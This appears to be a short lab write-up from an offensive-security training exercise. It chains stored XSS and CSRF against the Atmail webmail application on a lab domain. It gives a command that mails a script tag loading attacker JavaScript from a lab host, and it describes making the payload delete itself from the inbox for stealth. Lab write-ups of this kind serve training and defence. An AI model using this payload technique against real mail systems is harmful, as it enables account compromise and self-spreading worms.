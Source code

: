 ## Exercise 3.5.5 Extra Mile (CSRF)
Once you have completed the previous exercise, enhance the JavaScript payload further to delete itself from the victim’s email inbox. This provides an extra level of stealth and is often used in large-scale XSS worms.
1. Send malicious mail
	* `python -m SimpleHTTPServer 9090`
	* `python atmail_sendemail.py atmail '<script src="http://192.168.119.134:9090/atmail_sendmail_XHR.js"></script>'`
1. Login to atmail with **admin@offsec.local** and you should received the malicious email. Following screenshots show that the malicious email triggered the CSRF request.
